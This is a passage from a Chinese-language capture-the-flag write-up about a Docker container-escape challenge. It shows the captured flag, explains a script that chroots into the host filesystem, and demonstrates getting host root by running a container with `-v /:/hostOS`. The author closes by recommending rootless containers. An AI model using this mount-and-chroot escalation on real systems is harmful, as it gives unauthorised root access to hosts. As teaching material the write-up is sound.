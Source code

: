 现在我们有了一个 root shell 了，可以迫不及待地，

```plain
/ # cat /flag
flag{u5e_r00t1ess_conta1ner_4e2c3bbf62_plz!}
/ # 
```

### Flag

```plain
flag{u5e_r00t1ess_conta1ner_4e2c3bbf62_plz!}
```

Use rootless container, please!

不只是 Docker for everyone，还是 Root for everyone！因此，出题人建议使用 rootless container。不过具体怎么搞我也不到啊。

### 想清楚

这道题算是被“投机取巧”地做完了。但是，既然 `rootplease` 容器的代码这么短，为何不一探究竟，看看提权是如何实现的呢？我们看看 `exploit.sh` 做了啥。

```bash
if [ ! -d "/hostOS" ]; then
  # --- snip --- (show error)
  exit
fi

if [ ! -f "/hostOS/bin/sh" ] && [ ! -L "/hostOS/bin/sh" ]; then
  # --- snip --- (show error)
  exit
fi

# --- snip --- (show notice)
chroot /hostOS /bin/sh
```

似乎唯一的工作就是以 `/hostOS` 为根目录启动了一个容器内的 shell。看起来，`/hostOS` 是一个指向宿主系统的目录，为什么会这样呢？这是因为运行时加了一个参数：

```plain
alpine:/dev/shm/exploit$ docker run -v /:/hostOS -it --rm rootplease
```

没错，就是 `-v /:/hostOS`。我们运行题目所给的 `alpine` 容器时应该可以如法炮制。

```plain
alpine:~$ docker run -it --rm -v /:/hostOS alpine
/ # cd /hostOS
/hostOS # ls
bin         flag        media       root        swap        var
boot        home        mnt         run         sys
dev         lib         opt         sbin        tmp
etc         lost+found  proc        srv         usr
/hostOS # cat /flag
cat: can't open '/flag': No such file or directory
/hostOS # 
```
